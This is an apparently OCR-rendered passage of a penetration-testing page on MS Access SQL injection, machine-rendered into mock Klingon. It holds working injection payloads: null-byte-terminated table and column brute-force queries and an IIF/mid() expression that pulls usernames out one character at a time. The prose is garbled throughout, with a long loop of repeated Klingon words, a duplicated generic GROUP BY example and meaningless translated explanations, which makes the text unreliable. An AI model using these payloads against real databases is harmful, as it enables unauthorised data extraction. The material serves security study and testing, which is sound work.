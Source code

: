 vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bIQtIn 'e' vItlhutlh. bI
```sql
-1' AND (SELECT TOP 1 <table_name>)%00
```
_ghItlhvam vItlhutlh._

* Sqlmap common table names: [https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt](https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt)
* [http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html) vItlhutlh

### Columns nametlh brute-Forcing

**brute-Force current columns nametlh** vItlhutlh chaining equals trick with:
```sql
'=column_name='
```
**ghItlhvam**:
```
SELECT column1, column2, ..., aggregate_function(column)
FROM table
WHERE condition
GROUP BY column1, column2, ...
```

**ghItlhvam** **group by**:
```
SELECT column1, column2, ..., aggregate_function(column)
FROM table
WHERE condition
GROUP BY column1, column2, ...
```
```sql
-1' GROUP BY column_name%00
```
**Klingon Translation:**

**Or yu' can brute-force column names of a different table with:**

---
```sql
'=(SELECT TOP 1 column_name FROM valid_table_name)='

-1' AND (SELECT TOP 1 column_name FROM valid_table_name)%00
```
### qunwI'pu'

[**chaining equals technique**](ms-access-sql-injection.md#chaining-equals-+-substring) **to dump data from the current and other tables** **qaStaHvIS** **jatlh** **ghItlh** **'ej** **latlh** **'e'** **vItlhutlh**. 'ach **vItlhutlh** **qaStaHvIS** **jatlh** **ghItlh** **'ej** **latlh** **'e'** **vItlhutlh** **'e'** **vItlhutlh** **qaStaHvIS** **jatlh** **ghItlh** **'ej** **latlh** **'e'** **vItlhutlh**.
```sql
IIF((select mid(last(username),1,1) from (select top 10 username from users))='a',0,'ko')
```
### Time Based
